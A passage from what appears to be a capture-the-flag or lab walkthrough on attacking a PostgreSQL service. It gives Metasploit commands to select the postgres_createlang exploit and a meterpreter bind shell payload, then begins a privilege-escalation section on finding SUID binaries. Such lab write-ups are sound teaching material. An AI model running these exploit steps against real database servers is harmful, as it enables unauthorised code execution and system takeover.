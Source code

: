 Now we have our shell and we are login as the `postgres` user. After looking
around we seem like we can't do much. Now we can move on the
[Privilege Escalation phase](#privilege-escalation)

#### Create Lang

The `Create lang` exploit works because we can exploit the create language
function to allow external scripting language function. Basically the
exploit is creating a new function with our exploit and then running it.

We need to select the exploit with this command

``` bash
use exploit/multi/postgres/postgres_createlang
```

now we need to find a good payload with

```bash
show payloads
```

We should select on of the linux payloads with a meterpreter payload.
This will make the sessions a lot better for us.

```bash
set payload payload/cmd/unix/python/meterpreter/bind_tcp
```

Now that we have our payload we need to configure the settings.

Now we can move on the [Privilege Escalation phase](#privilege-escalation)

## Privilege Escalation

Now that we are the on the system as www-data or postgres, You notice that
don't have a lot access, and we can't find a Flag.txt file anywhere, where we
have access. This means that we need to do a escalate our privilege. There is a
few ways to get more privilege:

1. take over a vulnerable application that have more access then we have.
2. find an SUID

> Note: There is a lot more way to escalate privilege but that could be its own
> class.

SUID are one the most easy box to check for privilege escalation. There are two
way to find SUID
1. linpeas https://github.com/carlospolop/PEASS-ng
2. manual way

To understand what an SUID is and why its a thing, you have to understand that
sometime on a linux system you might want something to always run as root. This
now is not as common but it was a thing. so the way we can tell is with the
`ls -la` command.

![SUID example](../../Assets/PwnToOwn/SUID.png)
